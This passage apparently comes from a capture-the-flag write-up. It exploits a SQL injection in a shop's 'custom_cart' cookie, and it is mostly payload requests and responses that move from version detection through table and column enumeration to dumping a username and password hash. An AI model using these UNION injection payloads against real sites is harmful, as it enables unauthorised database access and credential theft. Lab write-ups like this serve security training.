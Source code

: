 Further testing and I find:
```bash
## Request
custom_cart={"4HAR4XDK'OR 1=1 UNION SELECT @@version,2,3-- -":"1","2E6E8GXJ":"1"}

## Response
53GG2EF8
```

A new ID, we're getting close to something! Note that we get the same response no matter if `@@version` is at column 1,2 or 3. 
Since `4HAR4XDK` is a valid ID and will therefore return true, remove it and use an invalid ID instead.
```bash
## Request
custom_cart={"sqlihere'UNION SELECT 1,@@version,3-- -":"1","2E6E8GXJ":"1"}

## Response
10.5.15-MariaDB-0+deb11u1
```

We got outselves a foothold!


### Step 2
Enumerate the database manually go gain [usefull information](https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635).
```bash
## DATABSE
request: custom_cart={"sqlihere'UNION SELECT 1,database(),3-- -":"1","2E6E8GXJ":"1"}
response: checkout

## USER
request: custom_cart={"sqlihere'UNION SELECT 1,user(),3-- -":"1","2E6E8GXJ":"1"}
response: checkout@localhost

## TABLES
request: custom_cart={"sqlihere'UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables-- -":"1","2E6E8GXJ":"1"}
response: ALL_PLUGINS,APPLICABLE_ROLES,CHARACTER_SETS,CHECK_CONSTRAINTS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENABLED_ROLES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEYWORDS,KEY_CACHES,KEY_COLUMN_USAGE,OPTIMIZER_TRACE,PARAMETERS,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,SQL_FUNCTIONS,SYSTEM_VARIABLES,TABLES,TABLESPACES,TABLE_CONSTRAINTS,TABLE_PRIVILEGES,TRIGGERS,USER_PRIVILEGES,VIEWS,CLIENT_STATISTICS,INDEX_STATISTICS,INNODB_SYS_DATAFILES,GEOMETRY_COLUMNS,INNODB_SYS_TABLESTATS,SPATIAL_REF_SYS,INNODB_BUFFER_PAGE,INNODB_TRX,INNODB_CMP_PER_INDEX,INNODB_METRICS,INNODB_LOCK_WAITS,INNODB_CMP,THREAD_POOL_WAITS,INNODB_CMP_RESET,THREAD_POOL_QUEUES,TABLE_STATISTICS,INNODB_SYS_FIELDS,INNODB_BUFFER_PAGE_LRU,INNODB_LOCKS,INNODB_FT_INDEX_TABLE,INNODB_CMPMEM,THREAD_POOL_GROUPS,INNODB_CMP_PER_INDEX_RESET,INNODB_SYS_FOREIGN_COLS,INNODB_FT_INDEX_CACHE,INNODB_BUFFER_POOL_STATS,INNODB_FT_BEING_DELETED,INNODB_SYS_FOREIGN,INNODB_CMPMEM_RESET,INNODB_FT_DEFAULT_STOPWORD,INNODB_SYS_TABLES,INNODB_SYS_COLUMNS,INNODB_FT_CONFIG,USER_STATISTICS,INNODB_SYS_TABLESPACES,INNODB_SYS_VIRTUAL,INNODB_SYS_INDEXES,INNODB_SYS_SEMAPHORE_WAITS,INNODB_MUTEXES,user_variables,INNODB_TABLESPACES_ENCRYPTION,INNODB_FT_DELETED,THREAD_POOL_STATS,user,product

## COLUMNS
request: custom_cart={"sqlihere'UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name = 'user'-- -":"1","2E6E8GXJ":"1"}
response: id,username,password

## EXTRACT DATA
request: custom_cart={"sqlihere'UNION SELECT 1,group_concat(username,0x3a,password),3 FROM user-- -":"1","2E6E8GXJ":"1"}
response: james_mason:fc895d4eddc2fc12f995e18c865cf273
```
